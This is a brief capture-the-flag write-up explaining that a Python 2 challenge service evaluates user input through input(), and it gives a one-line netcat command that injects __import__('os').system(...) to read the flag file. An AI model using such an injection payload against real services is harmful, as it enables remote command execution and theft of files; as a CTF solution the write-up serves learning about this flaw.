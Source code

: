 `You can clearly see that the file is written in python2, and uses input() instead of raw_input.`  
`Therefore just use echo "__import__('os').system('cat valentine.txt')" | nc 0.cloud.chals.io 34293 to get the flag.`

![](https://cdn.discordapp.com/attachments/1071846023359643748/1071846093027033189/Screenshot_2023-02-05_123214.png)
